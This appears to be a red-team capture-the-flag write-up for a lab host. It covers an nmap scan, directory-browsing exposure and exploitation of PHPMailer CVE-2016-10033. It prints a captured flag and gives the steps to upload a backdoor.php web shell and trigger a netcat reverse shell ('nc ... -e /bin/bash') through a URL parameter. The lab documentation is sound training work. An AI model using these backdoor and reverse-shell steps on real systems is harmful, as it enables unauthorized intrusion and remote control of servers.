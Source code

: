 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    **Vendor Directory Index view from the browser**
     
    ![1](/Images/4/6.PNG) 

    PATH File: **Flag1**

    ![2](/Images/4/7.PNG)        
     
    **PHPMAILER version**

    ![4](/Images/4/9.PNG)    

---

- **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

    1. Execution of the script to exploit PHPMailer. This script will upload a file called backdoor.php to the target server allowing the execution of command injection attacks.

            ./exploit.sh

        ![15](/Images/4/15.PNG)

    2. Set the Command and Control Machine to listen using the NetCat command.

            nc -lnvp 4444

        ![16](/Images/4/16.PNG)

    19. Make that the exploited machine calls to the Command and Control Machine using a NetCat command embedded in a payload after running the payload in the browser.

            192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash  

        ![17](/Images/4/17.PNG)

    20. Sensitive information was found in the "www" and "WordPress uploads" directory    

        ![19](/Images/4/19.PNG)

        ![20](/Images/4/20.png)